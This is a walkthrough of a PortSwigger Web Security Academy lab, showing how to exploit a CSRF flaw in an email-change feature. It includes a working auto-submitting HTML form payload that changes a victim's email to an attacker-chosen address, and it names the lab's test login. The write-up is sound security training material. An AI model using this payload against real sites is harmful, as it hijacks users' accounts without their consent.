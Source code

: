 # CSRF vulnerability with no defences

## Description

[This lab](https://portswigger.net/web-security/csrf/lab-no-defenses)'s email change functionality is vulnerable to CSRF.  

## Reproduction and proof of concept

1. Log in and intercept updating email (which is vulnerable):

![Simple CSRF](/_static/images/csrf-simple1.png)

2. To create the exploit, put the correct parameters in the template given in [Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf):

```text
<html>
    <body>
        <form action="https://0abe00ae04c3c7a8c1a5356100cc00d2.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

3. Paste the exploit in the `body` field of the exploit server form (link to exploit server is up top):

![Simple CSRF](/_static/images/csrf-simple2.png)

4. To verify that the exploit works, try it by clicking **View exploit**, turning intercept on again, and checking the resulting HTTP request and response. 
5. Click **Deliver to victim** to solve the lab. 

## Exploitability

An attacker needs to craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to the exploit server. An account with credentials `wiener:peter` is available.

